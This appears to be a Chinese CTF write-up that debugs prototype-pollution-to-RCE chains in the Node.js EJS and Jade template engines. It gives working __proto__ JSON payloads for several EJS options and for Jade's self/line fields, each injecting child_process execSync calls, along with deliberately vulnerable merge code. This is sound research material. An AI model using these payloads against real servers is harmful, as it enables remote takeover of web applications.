从西湖 Easyjs 讨论 nodejs 引擎 RCE

- - -

# 从西湖 Easyjs 讨论 nodejs 引擎 RCE

西湖初赛 Easyjs 的题目这次将常规的两种 outputFunctionName 和 escapeFunction 都 ban 掉了，之前也没有很关注这一个点，比赛的时候想在网上找到别的字段进行污染的绕过方式，但是资料不是很多，也没有找到，于是索性自己又回炉重造，调试了一下，顺便把其他两种原型链污染的点补充上。

## Ejs 模板调试分析

EJS 模板引擎是通过 render 函数调用 ejs.js 来进行模板渲染，所以我们将断点打在 render 处，先来看一下整个的一个污染调用链是如何调用的：

index.js

```bash
var express = require('express');
var ejs = require('ejs');

var app = express();
//设置模板的位置与种类
app.set('views', __dirname);
app.set('views engine','ejs');
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
//对原型进行污染
var malicious_payload = '{' +
    '"__proto__":{'+
    '"localsName":"a=process.mainModule.require(\'child_process\').exec(\'calc\');/*"' +
    '   }' +
    '}';
merge({}, JSON.parse(malicious_payload));

//进行渲染
app.get('/', function (req, res) {
    res.render ("index.ejs",{
        message: 'Ic4_F1ame'
    });
});

//设置 http
var server = app.listen(8000, function () {

    var host = server.address().address
    var port = server.address().port

    console.log("应用实例，访问地址为 http://%s:%s", host, port)
});
```

index.ejs

```bash
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title></title>
</head>
<body>

<h1><%= message%></h1>

</body>
</html>
```

-   通过 render 断点我们跟进到 response.js 模块

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202195750-49ea79a6-c1c2-1.png)

-   在 response.js 中的 app.render 模块我们可以看到 opts 参数中，有我们传入的 outputFuntionName，我们继续跟进，找到能调用 outputFunctionName 的地方：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202195800-4fd4b00c-c1c2-1.png)

-   在 applicattion 当中我们找到 tryRender 模块以后，这里也是来调用 ejs 模块来进行渲染，跟进 tryRender，然后在 tryRender 中跟进 view.render 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202195842-68ca2952-c1c2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202195850-6df86240-c1c2-1.png)

-   在 view.render 中，我们就发现了 engine 引擎这个关键字，然后进入 this.engine 里面，就最终进入到了 ejs.js 的模块当中，调用 ejs.js 的入口函数 renderFile，在 renderFile 中 return tryHandleCache，我们跟进 tryHandleCache 函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202195859-735f66b6-c1c2-1.png)

-   然后跟进到 handleCache 函数中：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202195908-784f475e-c1c2-1.png)

-   在 handleCache 模块当中我们看到 exports.compile 模块，可以看到我们要渲染的 index.ejs 被渲染到 compile 函数当中，跟进 compile 函数，函数在最后 renturn templ.compile()：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202195916-7d17eb4c-c1c2-1.png)

-   然后我们就进入到了模板引擎调用的部分，下面就找一下分别都有哪些可以进行调用：

```bash
function Template(text, opts) {
  opts = opts || {};
  var options = {};
  this.templateText = text;
  /** @type {string | null} */
  this.mode = null;
  this.truncate = false;
  this.currentLine = 1;
  this.source = '';
  options.client = opts.client || false;
  options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
  options.compileDebug = opts.compileDebug !== false;
  options.debug = !!opts.debug;
  options.filename = opts.filename;
  options.openDelimiter = opts.openDelimiter || exports.openDelimiter || _DEFAULT_OPEN_DELIMITER;
  options.closeDelimiter = opts.closeDelimiter || exports.closeDelimiter || _DEFAULT_CLOSE_DELIMITER;
  options.delimiter = opts.delimiter || exports.delimiter || _DEFAULT_DELIMITER;
  options.strict = opts.strict || false;
  options.context = opts.context;
  options.cache = opts.cache || false;
  options.rmWhitespace = opts.rmWhitespace;
  options.root = opts.root;
  options.includer = opts.includer;
  options.outputFunctionName = opts.outputFunctionName;
  options.localsName = opts.localsName || exports.localsName || _DEFAULT_LOCALS_NAME;
  options.views = opts.views;
  options.async = opts.async;
  options.destructuredLocals = opts.destructuredLocals;
  options.legacyInclude = typeof opts.legacyInclude != 'undefined' ? !!opts.legacyInclude : true;
```

## function 函数构造器：

-   从原型的角度上来讲，在 nodejs 中，每一个函数其实都是对应的 Function 的对象，我们通过`(function(){}).constructor === Function`可以看出，这样看的话，其实和 php 的 createFunction 比较相似，keyvalue 是函数名，a 是要传入的参数，console.log(1+a+this.values) 是函数的内容。

```bash
var key = {
    values:2
}
var keyvalue = new Function("a", "console.log(1+a+this.values)");
keyvalue.apply(key,[4])
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202195927-83f5ad1e-c1c2-1.png)

-   我们可以看到在 ejs.js 当中存在这样的代码，当 ctor 为 Function 的时候，src 其实就是函数的内容，我们只要将恶意代码写入函数当中我们就能够在 fn.apply 的时候进行调用触发，所以我们要跟进一下 src 的值：

```bash
try {
      if (opts.async) {
        try {
          ctor = (new Function('return (async function(){}).constructor;'))();
        }
        ......
      }
      else {
        ctor = Function;
      }
      fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);
    }
   var returnedFn = opts.client ? fn : function anonymous(data) {
      ......
      return fn.apply(opts.context, [data || {}, escapeFn, include, rethrow]);
    };
```

-   我们可以看到 src 来源于 source，然后 source 来源于 prepened，以及 appended，所以我们下一步要找的目标就是如何去控制 prepened

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202195940-8b5c94aa-c1c2-1.png)

## 第一处：outputFuncitonName 字段 RCE

-   这里我们能够看到 prepended 内容可以由 outputFunctionName 来控制可以看到这里再一次调用了我们污染过的 outputFunctionName，然后将其拼接到字符串当中，我们就可以对他进行一个命令拼接

```bash
if (!this.source) {
      ......
      prepended +=
        '  var __output = "";\n' +
        '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
      if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
      ......
      }
```

```bash
{
    "__proto__":{
    "outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').execSync('calc');var __tmp2"
    }
}
```

-   可以看到调试中对 outputFunctionName 进行拼接以后得到 prepended 结果，可以看到我们的命令执行代码成功插入到里面：

```bash
var __output = "";
function __append(s) { if (s !== undefined && s !== null) __output += s }
var _tmp1;
global.process.mainModule.require('child_process').execSync('calc');
var __tmp2 = __append;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202195954-93aae292-c1c2-1.png)

## 第二处：destructuredLocals 字段 RCE

-   可以看到`prepended += destructuring + ';\n';`进行了控制，所以这里我们就可以通过控制 destructuring->控制 name->控制`opts.destructuredLocals[i]`来进行控制，这里`opts.destructuredLocals`是数组的形式，所以我们需要传入一个污染后的数组，能让`opts.destructuredLocals[0]`顺利的赋值给 name 我们就能够进行污染

```bash
if (opts.destructuredLocals && opts.destructuredLocals.length) {
  var destructuring = '  var __locals = (' + opts.localsName + ' || {}),\n';
  for (var i = 0; i < opts.destructuredLocals.length; i++) {
    var name = opts.destructuredLocals[i];
    if (i > 0) {
      destructuring += ',\n  ';
    }
    destructuring += name + ' = __locals.' + name;
  }
  prepended += destructuring + ';\n';
}
```

```bash
{
    "__proto__":{
    "destructuredLocals":[
        "a=a;global.process.mainModule.require('child_process').execSync('calc');//var __tmp2"
    ]
    }
}
```

-   可以看到这里我们通过 a=a;进行上面 pretended+=的闭合，然后也成功注入了我们的恶意代码

```bash
var __output = "";
function __append(s) { if (s !== undefined && s !== null) __output += s }
var __locals = (locals || {}),
a=a;global.process.mainModule.require('child_process').execSync('calc');//var __tmp2 = __locals.a=a;global.process.mainModule.require('child_process').execSync('calc');//var __tmp2;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200005-9acc1aa0-c1c2-1.png)

在后面 fn 函数进行`new Function`定义的时候，src 的值中就存在我们插入的恶意代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200015-a085c112-c1c2-1.png)

```bash
var __line = 1
  , __lines = "<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1><%= message%></h1>\r\n\r\n</body>\r\n</html>"
  , __filename = "D:\\webnode\\CTF 复现\\111\\index.ejs";
try {
  var __output = "";
  function __append(s) { if (s !== undefined && s !== null) __output += s }
  var __locals = (locals || {}),
a=a;global.process.mainModule.require('child_process').execSync('calc');//var __tmp2 = __locals.a=a;global.process.mainModule.require('child_process').execSync('calc');//var __tmp2;
  with (locals || {}) {
    ; __append("<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1>")
    ; __line = 9
    ; __append(escapeFn( message))
    ; __append("</h1>\r\n\r\n</body>\r\n</html>")
    ; __line = 12
  }
  return __output;
} catch (e) {
  rethrow(e, __lines, __filename, __line, escapeFn);
}
```

## 第三处：localsName 字段 RCE

在 localsName 字段处，也是对 prepended 进行了拼接，所以这里也是可以存在对应的恶意代码拼接的

```bash
if (opts._with !== false) {
        prepended +=  '  with (' + opts.localsName + ' || {}) {' + '\n';
        appended += '  }' + '\n';
      }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200028-a7f78ee4-c1c2-1.png)

但是这里存在一个问题是：在后面 new Function 的时候，localsName 被作为参数在 function 的第一个形参处进行了拼接：

`fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);`

所以这里我们如果想通过闭合 with 然后单独列出我们的恶意代码就存在一些问题了，因为闭合 with 难免在后面拼接的时候，with 前面自带的 (无法闭合，导致抛出异常，所以这里我们就在 with 当中直接执行我们的恶意代码：

1、这里表示如果执行 localsName 没有返回报错结果或者是 undefined&null，就取 localsName 的作为返回结果

```bash
with (localsName || {}){}
```

2、这里将 localsName, escapeFn, include, rethrow 作为参数下一步传入 src 当中，因为我们在上文的 src 中也已经看到，存在 escapeFn，rethrow，locals(localsName 默认值) 等在 src 中的调用。

```bash
fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);
```

综合两点来进行考虑，我们可以将 localsName 附成一个值来进行执行，在 with 函数进行拼接的时候将 localsName 的值拼接进去，在后面构造函数的时候，作为参数传入 src 当中进行恶意代码的注入，在调用 with 的时候来触发恶意代码，也确保了我们不会出现因为闭合而出现报错的问题：

```bash
{
    "__proto__":{
        "localsName":"x=global.process.mainModule.require('child_process').execSync('calc')"
    }
}
```

此时 prepended 将我们的恶意代码作为键值对插入到了 with 当中：

```bash
var __output = "";
function __append(s) { if (s !== undefined && s !== null) __output += s }
with (x=global.process.mainModule.require('child_process').execSync('calc') || {}) {
```

在调用到 fn 的时候我们就可以发现我们注入的键值对被当作参数来进行使用，也为后续 src 中出现我们参数的时候能够执行代码打下了基础。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200045-b2418134-c1c2-1.png)

整个 src 的值最后通过 with 执行`x=global.process.mainModule.require('child_process').execSync('calc')`的时候调用 function 函数传入的`x=global.process.mainModule.require('child_process').execSync('calc')`，将 x=的部分执行以后返回结果赋值给 x，这时候我们就能够进行 RCE 的操作了。

```bash
var __line = 1
  , __lines = "<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1><%= message%></h1>\r\n\r\n</body>\r\n</html>"
  , __filename = "D:\\webnode\\CTF 复现\\111\\index.ejs";
try {
  var __output = "";
  function __append(s) { if (s !== undefined && s !== null) __output += s }
  with (x=global.process.mainModule.require('child_process').execSync('calc') || {}) {
    ; __append("<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1>")
    ; __line = 9
    ; __append(escapeFn( message))
    ; __append("</h1>\r\n\r\n</body>\r\n</html>")
    ; __line = 12
  }
  return __output;
} catch (e) {
  rethrow(e, __lines, __filename, __line, escapeFn);
}

//# sourceURL=D:\webnode\CTF 复现\111\index.ejs
```

## 第四处：escapeFunction 字段 RCE

这里是通过 escapeFn，直接拼接入 src 的，所以这里也可以进行拼接，我们控制 client 和 escapeFunction，从而进行拼接

```bash
if (opts.client) {
  src = 'escxapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```

```bash
{
    "__proto__":{
        "client":1,
        "escapeFunction":"escapeFn;global.process.mainModule.require('child_process').execSync('calc')"
    }
}
```

然后可以看到 src 中的值里面成功注入了我们的恶意代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200058-b9ea36ce-c1c2-1.png)

```bash
escxapeFn = escapeFn || escapeFn;global.process.mainModule.require('child_process').execSync('calc');
var __line = 1
  , __lines = "<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1><%= message%></h1>\r\n\r\n</body>\r\n</html>"
  , __filename = "D:\\webnode\\CTF 复现\\111\\index.ejs";
try {
  var __output = "";
  function __append(s) { if (s !== undefined && s !== null) __output += s }
  with (locals || {}) {
    ; __append("<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1>")
    ; __line = 9
    ; __append(escapeFn( message))
    ; __append("</h1>\r\n\r\n</body>\r\n</html>")
    ; __line = 12
  }
  return __output;
} catch (e) {
  rethrow(e, __lines, __filename, __line, escapeFn);
}
```

## 第五处：escape 字段 RCE

和 escapeFuntion 是一样的地方：

```bash
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
```

这里就直接给出 payload：

```bash
{
    "__proto__":{
        "client":1,
        "escape":"escapeFn;global.process.mainModule.require('child_process').execSync('calc')"
    }
}
```

## 第六处：delimiter 字段

delimiter 字段下存在这里对 source 的拼接，但是因为存在 switch 的一个验证，line 是写死的内容如果要想进入 case 的话，需要我们构造的 delimiter 字段和 line 进行匹配才能够进入 source 拼接，暂时还没有想到可控的方式

```bash
options.delimiter = opts.delimiter || exports.delimiter || _DEFAULT_DELIMITER;

scanLine: function (line) {
    var d = this.opts.delimiter;
    var o = this.opts.openDelimiter;
    var c = this.opts.closeDelimiter;

    newLineCount = (line.split('\n').length - 1);

    switch (line) {
    ......
    case o + d + d:
      this.mode = Template.modes.LITERAL;
      this.source += '    ; __append("' + line.replace(o + d + d, o + d) + '")' + '\n';
      break;
    case d + d + c:
      this.mode = Template.modes.LITERAL;
      this.source += '    ; __append("' + line.replace(d + d + c, d + c) + '")' + '\n';
      break;
```

## jade 模板引擎注入 RCE：

index.js

```bash
const express = require('express');
const lodash = require('lodash');
const path = require('path');
var bodyParser = require('body-parser');


const app =  express();
var router = express.Router();

app.set('view engine', 'jade');
app.set('views', path.join(__dirname, 'views'));
app.use(bodyParser.json({ extended: true }));


app.get('/',function (req, res) {
    res.send('Hello World');
})

app.post('/post',function (req, res) {
    function merge(target, source) {
        for (let key in source) {
            if (key in source && key in target) {
                merge(target[key], source[key])
            } else {
                target[key] = source[key]
            }
        }
    }
//对原型进行污染
    var malicious_payload = '{"__proto__":{"self":1,"line":"global.process.mainModule.require(\'child_process\').execSync(\'calc\')"}}';
    var body = JSON.parse(JSON.stringify(req.body));
    var a = {};
    merge(a, JSON.parse(malicious_payload));
    console.log(a.name);
    res.render('index.jade', {
        title: 'HTML',
        name: a.name || ''
    });
})
app.listen(8000, () => console.log('Example app listening on port http://127.0.0.1:3000 !'))
```

index.jade:

```bash
doctype html
html
    head
        meta(charset="utf-8")
        title Example App
    body
        h1= message
```

调试过程，同样我们在 render 处下断点，前面的调用链是一样的：

```bash
render->app.render->tryRender->view.render->this.engine
```

`exports.__express`:

-   调用到模板的入口 exports.\_\_express，然后调用 exports.renderFile()，此函数 return handleTemplateCache(options)(options);
-   compileDebug 这里可以污染成 true，这样我们就可以开启 debug 模式

```bash
exports.__express = function (path, options, fn) {
  if (options.compileDebug == undefined && process.env.NODE_ENV === 'production') {
    options.compileDebug = false;
  }
  exports.renderFile(path, options, fn);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200120-c74790a0-c1c2-1.png)

`exports.compile`:

-   然后调用到 exports.compile 函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200129-cc550f5a-c1c2-1.png)

-   在 exports.compile 中存在这样的代码，可以看到 fn = new Function('locals, jade', fn)，而 fn 又是由 parsed.body 控制的，所以我们跟进到 parse(str,option) 中：

```bash
exports.compile = function(str, options){
  var options = options || {}
    , filename = options.filename
      ? utils.stringify(options.filename)
      : 'undefined'
    , fn;

  str = String(str);

  var parsed = parse(str, options);
  if (options.compileDebug !== false) {
    fn = [
        'var jade_debug = [ new jade.DebugItem( 1, ' + filename + ' ) ];'
      , 'try {'
      , parsed.body
      , '} catch (err) {'
      , '  jade.rethrow(err, jade_debug[0].filename, jade_debug[0].lineno' + (options.compileDebug === true ? ',' + utils.stringify(str) : '') + ');'
      , '}'
    ].join('\n');
  } else {
    fn = parsed.body;
  }
  fn = new Function('locals, jade', fn)
```

`parse`:

-   我们跟进到 parse 可以看到 parse 最后返回的值就是 body，然后我们来看 body，可以看到 body 是由 js 控制进行拼接的，所以我们需要对 js 进行跟进，因此跟进到 compile.compile()，这里 options.self 会进行一个判断如果为真返回`var self = locals || {};\n' + js`，所以我们这里污染 self 为 1

```bash
function parse(str, options){
      ......
  var parser = new (options.parser || Parser)(str, options.filename, options);
  var tokens;
  try {
    // Parse
    tokens = parser.parse();
  } ......
  // Compile
  var compiler = new (options.compiler || Compiler)(tokens, options);
  var js;
  try {
    js = compiler.compile();
  } 
    ......

  // Debug compiler
  ......
  var globals = [];

  if (options.globals) {
    globals = options.globals.slice();
  }
  globals.push('jade');
  globals.push('jade_mixins');
  globals.push('jade_interp');
  globals.push('jade_debug');
  globals.push('buf');

  var body = ''
    + 'var buf = [];\n'
    + 'var jade_mixins = {};\n'
    + 'var jade_interp;\n'
    + (options.self ? 'var self = locals || {};\n' + js : addWith('locals || {}', '\n' + js, globals)) + ';'
    + 'return buf.join("");';
  return {body: body, dependencies: parser.dependencies};
}
```

跟进 compiler.compile():

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200142-d46c5e50-c1c2-1.png)

跟进 visit：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200149-d881316e-c1c2-1.png)

然后在 visit 当中我们发现了拼接的地方，将我们的 line 拼接进去：

```bash
visit: function(node){
    var debug = this.debug;

    if (debug) {
      this.buf.push('jade_debug.unshift(new jade.DebugItem( ' + node.line
        + ', ' + (node.filename
          ? utils.stringify(node.filename)
          : 'jade_debug[0].filename')
        + ' ));');
    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200157-dd499ace-c1c2-1.png)

最后我们看到 fn 的内容是，可以看到插入了我们 line 要污染的值：

```bash
var jade_debug = [ new jade.DebugItem( 1, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ) ];
try {
var buf = [];
var jade_mixins = {};
var jade_interp;
var self = locals || {};
jade_debug.unshift(new jade.DebugItem( 0, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
jade_debug.unshift(new jade.DebugItem( 1, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<!DOCTYPE html>");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 2, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<html>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 3, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<head>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 4, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<meta" + (jade.attr("charset", "utf-8", true, true)) + ">");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 5, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<title>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 5, jade_debug[0].filename ));
buf.push("Example App");
jade_debug.shift();
jade_debug.shift();
buf.push("</title>");
jade_debug.shift();
jade_debug.shift();
buf.push("</head>");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 6, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<body>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 7, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<h1>" + (jade.escape(null == (jade_interp = message) ? "" : jade_interp)));
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.shift();
buf.push("</h1>");
jade_debug.shift();
jade_debug.shift();
buf.push("</body>");
jade_debug.shift();
jade_debug.shift();
buf.push("</html>");
jade_debug.shift();
jade_debug.shift();;return buf.join("");
} catch (err) {
  jade.rethrow(err, jade_debug[0].filename, jade_debug[0].lineno);
}var jade_debug = [ new jade.DebugItem( 1, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ) ];
try {
var buf = [];
var jade_mixins = {};
var jade_interp;
var self = locals || {};
jade_debug.unshift(new jade.DebugItem( 0, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
jade_debug.unshift(new jade.DebugItem( 1, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<!DOCTYPE html>");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 2, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<html>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 3, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<head>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 4, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<meta" + (jade.attr("charset", "utf-8", true, true)) + ">");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 5, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<title>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 5, jade_debug[0].filename ));
buf.push("Example App");
jade_debug.shift();
jade_debug.shift();
buf.push("</title>");
jade_debug.shift();
jade_debug.shift();
buf.push("</head>");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 6, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<body>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 7, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<h1>" + (jade.escape(null == (jade_interp = message) ? "" : jade_interp)));
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.shift();
buf.push("</h1>");
jade_debug.shift();
jade_debug.shift();
buf.push("</body>");
jade_debug.shift();
jade_debug.shift();
buf.push("</html>");
jade_debug.shift();
jade_debug.shift();;return buf.join("");
} catch (err) {
  jade.rethrow(err, jade_debug[0].filename, jade_debug[0].lineno);
}
```

在 renderFile 中，调用 handleTemplateCache 函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200213-e68a1686-c1c2-1.png)

然后在里面调用了 fn(locals,Object.create(runtime)) 从而触发 fn 函数，然后执行了我们的恶意代码，从而造成 RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202200219-ea7b8748-c1c2-1.png)
